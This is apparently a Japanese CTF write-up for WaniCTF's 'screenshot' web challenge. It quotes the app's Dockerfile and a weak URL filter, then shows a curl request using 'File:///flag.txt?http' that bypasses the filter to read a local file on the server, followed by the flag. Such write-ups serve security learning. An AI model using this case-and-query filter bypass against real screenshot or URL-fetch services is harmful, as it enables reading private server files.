 # screenshot:Web:200pts
好きなウェブサイトのスクリーンショットを撮影してくれるアプリです。  
An application that takes screenshots of your favorite websites.  
[https://screenshot-web.wanictf.org](https://screenshot-web.wanictf.org/)  

[web-screenshot.zip](web-screenshot.zip)  

# Solution
よくあるスクリーンショットアプリだ。  
![site.png](site/site.png)  
ボタンを押すと画像がスクリーンショット画像が返ってくる。  
URLは`https://screenshot-web.wanictf.org/api/screenshot?url=https://www.example.com/`であった。  
配布されたDockerfileより、フラグは`/flag.txt`にあるとわかる。  
```Dockerfile
FROM node:18.12.1-bullseye-slim

WORKDIR /app

# Install dependencies
COPY ./package.json ./package-lock.json /app/
RUN PLAYWRIGHT_SKIP_BROWSER_DOWNLOAD=1 npm ci
RUN npx playwright install --with-deps chromium

COPY . /app
COPY ./flag.txt /flag.txt

ENTRYPOINT ["node", "src/index.js"]
```
`file:///flag.txt`で終わりそうだが、おそらく何らかのフィルタがかかっているようなのでindex.jsを読む。  
```js
~~~
      if (!req.query.url.includes("http") || req.query.url.includes("file")) {
        res.status(400).send("Bad Request");
        return;
      }
~~~
```
`http`が入っており、`file`が入っていないことが求められている。  
`file`は`File`とすれば突破できる。  
問題は`http`だが、こちらもfile schemeにはクエリが使えるので、`?http`などを付加してやればよい。  
以下の通りに`/flag.txt`を撮る。  
```bash
$ curl 'https://screenshot-web.wanictf.org/api/screenshot?url=File:///flag.txt?http' -o flag.png
```
![flag.png](flag.png)  
flagがスクリーンショットできた(Leetじゃないところがいい)。  

## FLAG{beware_of_parameter_type_confusion!}